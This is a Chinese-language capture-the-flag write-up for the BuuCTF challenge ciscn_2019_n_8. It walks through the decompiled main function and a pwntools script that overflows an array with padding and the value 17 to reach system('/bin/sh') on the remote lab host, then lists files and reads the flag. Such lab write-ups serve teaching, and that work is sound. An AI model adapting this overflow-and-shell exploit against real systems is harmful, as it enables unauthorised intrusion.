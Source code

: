 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# ciscn_2019_n_8

## 前置工作

直接用最简单的脚本先进入靶机，随便输入点东西（这种脚本相当于在 `nc` 了）

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477)
r.interactive()
```

输出如下

```
What's your name?
ls
ls, Welcome!
Try do something~
```

看得出来这道题不太好混，那就下载附件

用 `checksec` 检查下程序位数，发现是 32 位，用 IDA（IDA 32）打开附件，直接找到 `main` 函数，按 F5 反汇编，得到如下伪代码

目标很明确，结合伪代码中我自己写的注释可知如何提权（即让程序走到 `system("/bin/sh")`）

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5); // 数组 var 是从用户输入中得到的
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL ) // 如果数组的第 13 位等于十六进制的 17
      system("/bin/sh"); // 提权，后面就能执行 ls，cat 等命令
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

## 填充数组

如果想要让 `var[13]` 为十六进制的 17，那么必须先将前面 `var[0]` ~ `var[12]` 全部填满，那么我们可以写出如下 Payload

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477) # 远程连接
payload = b"0"*13*4 # 填充 var[0] ~ var[12]，一共 13 个位置，每个位置 4 个字节（因为是 int 类型）
payload += p32(17) # 将 var[13] 赋为在 32 位程序下的十六进制的 17
r.sendline(payload) # 发送 Payload
r.interactive() # 交互接管
```

## 攻入靶机

运行程序，此时已经提权，我们可以直接输入命令 `ls`，输出如下

```
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
```

发现有 `flag`，于是我们输入 `cat flag` 命令，最终结果如下

```
flag{d1808d00-2a39-4d18-a09b-647ba54fb495}
```